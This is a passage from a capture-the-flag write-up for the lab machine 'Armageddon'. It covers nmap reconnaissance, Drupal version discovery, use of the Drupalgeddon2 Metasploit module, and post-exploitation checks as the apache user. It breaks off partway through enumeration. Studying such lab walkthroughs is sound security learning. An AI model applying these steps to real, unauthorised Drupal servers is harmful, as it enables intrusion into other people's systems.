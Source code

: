# Armaggedon

export IP=10.10.10.233

# Solution

Starting with an nmap scan

```bash
cmd: sudo nmap -sC -sV -oN nmap/initial $IP

22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

Lets check all the information that the nmap gave on the webserver running on port 80 <br>

**Note:** i'll also leave an all port scan in the background <br>

Checking the functionality, we can do basically anything besides login <br>

The **Create new account** dont work completely (because we cant login) but it seems that the information is actually stored (refers that needs approval) <br> 

Robots.txt
``` 
---snip---
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
``` 

In the **/CHANGELOG.txt** we can see the drupal version
```
Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.
```

Well, it's a pretty old version and ofcourse there is a metasploit payload for it with a name that seems to correlate with the machine... well this escalated quickly
```
1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
```

Using the exploit
```
cmd: whoami && id
apache
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

One thing that i checked, that i usually dont do was checking the kernel version
``` 
cmd: uname -a

Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

We can see the **armageddon.htb** which may be needed further down the road. <br>